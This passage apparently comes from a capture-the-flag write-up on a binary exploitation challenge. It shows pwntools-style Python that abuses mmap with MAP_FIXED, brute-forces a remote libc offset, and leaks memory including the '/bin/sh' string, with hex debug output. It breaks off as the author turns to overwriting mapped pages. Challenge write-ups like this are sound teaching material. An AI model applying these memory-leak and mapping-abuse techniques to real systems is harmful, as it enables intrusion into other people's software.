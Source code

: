 ```python
from sys import argv
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc = file_mmap-0x27e000 + int(argv[1])*0x1000
create(addr=libc-0x1000, length=0x1000, prot=7, flags=0x32)
context.log_level = 'debug'
s = write(0x1010)
r.interactive()
```
We hit an unknown null-byte section at `argv[1]=6`: 
```python
[DEBUG] Received 0xb57 bytes:
    00000000  64 61 74 61  20 3d 20 00  00 00 00 00  00 00 00 00  │data│ = ·│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000b50  00 00 00 00  00 00 00                               │····│···│
    00000b57
[DEBUG] Received 0x4ca bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000004c0  0a 63 68 6f  69 63 65 20  3d 20                     │·cho│ice │= │
    000004ca
[*] Switching to interactive mode
```
Not entirely sure what it could be. 7 gives an EOFError (!), 8 gives the same nul-bytes, and 9 *finally* gives the ELF header we're looking for:
```python
$ python3.8 misterul.py 9
...
[DEBUG] Received 0x4ca bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000004b0  7f 45 4c 46  02 01 01 03  00 00 00 00  00 00 00 00  │·ELF│····│····│····│
    000004c0  0a 63 68 6f  69 63 65 20  3d 20                     │·cho│ice │= │
    000004ca
[*] Switching to interactive mode
```
To verify that this is actually libc (and not some other shared object happened across), we'll try to leak `"/bin/sh"` from this bruteforced offset:
```python
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc = file_mmap-0x27e000 + 9*0x1000    # empirical for remote
create(addr=libc-0x1000, length=0x1000, prot=7, flags=0x32)
s = write(0x1000+context.libc.symbols['str_bin_sh']+8)
print(s[-8:])
r.interactive()
```
Works like a charm:
```python
b'/bin/sh\x00'
[*] Switching to interactive mode

choice = $
```
With access to libc, what's next?
## Overwriting 
When I was looking up `MAP_FIXED` online, I noticed [this stackoverflow page](https://stackoverflow.com/questions/14943990/overlapping-pages-with-mmap-map-fixed#14949352) indicating that the option had the power to *completely overwrite* pre-existing mapped pages in the program.
